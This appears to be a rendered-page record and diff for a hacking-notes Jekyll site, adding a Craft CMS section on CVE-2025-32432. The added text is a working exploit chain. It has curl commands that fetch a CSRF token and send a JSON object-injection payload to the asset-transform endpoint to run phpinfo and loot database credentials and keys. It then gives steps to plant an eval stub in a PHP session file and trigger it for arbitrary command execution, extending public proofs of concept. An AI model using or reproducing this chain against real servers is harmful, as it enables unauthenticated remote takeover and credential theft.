

Before and after one commit to v0idravl/hakiki, a Jekyll site: the page built from web/web_exploitation.md, in a window 1280 px wide and 1400 px high, scrolled down 14820 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files.

Commit message:
docs: add Craft CMS CVE-2025-32432 chain and glibc GCONV_PATH/LOCPATH privesc

````diff
--- a/web/web_exploitation.md
+++ b/web/web_exploitation.md
@@ -710,6 +710,50 @@
 
 ---
 
+## Craft CMS
+
+```bash
+# Fingerprint + PIN THE VERSION — the patch boundary decides everything
+curl -s http://$IP/ -H "Host: $VHOST" -I | grep -i "X-Powered-By"   # "Craft CMS"
+curl -s http://$IP/admin/login -H "Host: $VHOST" | grep -o 'Craft CMS [0-9.]*'
+# CVE-2025-32432 fixed in 5.6.17 / 4.14.15 / 3.9.15 — anything at/below those is vulnerable
+```
+
+**CVE-2025-32432 — pre-auth RCE via asset transform (Yii object injection)**
+```bash
+# 1. Grab CSRF token + CRAFT_CSRF_TOKEN cookie from any page
+CSRF=$(curl -s "http://$IP/index.php?p=admin/login" -H "Host: $VHOST" -c cj.txt \
+  | grep -oP 'name="CRAFT_CSRF_TOKEN"\s+value="\K[^"]+')
+
+# 2. Detection gadget — FnStream::_fn_close (no-arg callable) runs phpinfo()
+#    handle.as<name> attaches a Yii behavior; __class overrides the instantiated class
+curl -s -X POST "http://$IP/index.php?p=admin/actions/assets/generate-transform" \
+  -H "Host: $VHOST" -H 'Content-Type: application/json' -H "X-CSRF-Token: $CSRF" -b cj.txt \
+  -d '{"assetId":1,"handle":{"width":1,"height":1,"as x":{
+      "class":"craft\\behaviors\\FieldLayoutBehavior",
+      "__class":"GuzzleHttp\\Psr7\\FnStream","__construct()":[[]],"_fn_close":"phpinfo"}}}'
+# 200 + a phpinfo page = vulnerable. Loot CRAFT_DB_* creds + CRAFT_SECURITY_KEY from it.
+# Bruteforce assetId (1..50) if 1 is invalid. devMode=true => stack traces leak everything.
+```
+
+**Upgrade phpinfo → command exec with output (PhpManager session-poison chain)**
+```text
+1. Plant an eval stub in the PHP session file. Craft stores the requested admin URL as the
+   post-login return URL inside sess_<CraftSessionId>, so GET
+   /index.php?p=admin/dashboard&PARAM=<?=eval($_GET['PARAM']);die()?> writes it to disk.
+   SEND IT RAW over a socket — url-encoding turns <? into %3C%3F and the chain fails.
+   This must be the LAST session write before the trigger (later admin GETs overwrite it).
+2. Leak session.save_path via the FnStream->phpinfo gadget (default /var/lib/php/sessions).
+3. Trigger: same generate-transform POST but with the yii\rbac\PhpManager gadget —
+   __class=yii\rbac\PhpManager, __construct()=[{"itemFile":"<save_path>/sess_<sid>"}].
+   PhpManager::loadFromFile -> require(session_file) -> runs the stub -> eval($_GET['PARAM']).
+   Pass the real PHP (e.g. system('id')) as PARAM on the trigger request; output is echoed.
+```
+> Public PoCs (Sachinart, MSF craftcms_preauth_rce_cve_2025_32432) only prove phpinfo;
+> re-implement the PhpManager step for actual command exec. Reference: Orange Cyberdefense.
+
+---
+
 ## Deserialization
 
 ### Identification markers
````
Also changed, not shown: privesc/privesc_main.md (+41 -0 lines).
